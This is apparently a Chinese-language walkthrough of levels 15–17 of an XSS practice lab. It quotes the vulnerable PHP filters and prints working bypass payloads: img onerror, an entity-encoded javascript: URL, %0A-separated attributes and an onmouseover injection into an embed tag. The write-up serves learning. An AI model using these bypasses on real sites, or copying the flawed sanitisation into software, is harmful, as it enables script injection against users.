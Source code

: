 <img src="image.gif" onerror="alert('图片不能被加载。')">

在15页面里面是没有注入点，但是在别的页面里面有

```
src='level8.php?keyword=java&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:alert(1)'
```

```
src='level1.php?name=<img src=1 onerror=alert(123)>'
```

### 第十六关

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);//大小写绕不过
$str2=str_replace("script","&nbsp;",$str);//script没了
$str3=str_replace(" ","&nbsp;",$str2);//空格没了
$str4=str_replace("/","&nbsp;",$str3);//斜杠没了
$str5=str_replace("	","&nbsp;",$str4);//空格又没了
echo "<center>".$str5."</center>";
?>
```

在html代码中每输入一个转义字符&nbsp就表示一个空格，输入十个&nbsp，页面中就显示10个空格位置。

而在html代码中输入空格，不管输入多少个空格，最终在页面中显示的空格位置只有一个。

用url编码绕过

```
<img%0Asrc=1%0Aonerror=alert("xss");>
```

### 第十七关

```python
<embed src="xsf01.swf?a=b" heigth="100%" width="100%">src="xsf01.swf?a=b"
```

```
"<embed src=xsf01.swf?" " width=100% heigth=100%>"
```

本身就是闭合的，所以不需要构造闭合，所以可以绕过htmlspecialchars该函数，因此，我们输入的才会被当成独立事件属性，不然就需要去构造闭合，而对于htmlspecialchars来说，双引号是特殊处理的，不能用来闭合

```
arg01=a&arg02=b onmouseover=javascript:alert(1)
```

火狐不支持swf换一个浏览器就可以成功弹出了

源码里还是有过滤的

```python
echo "<embed src=xsf01.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
```
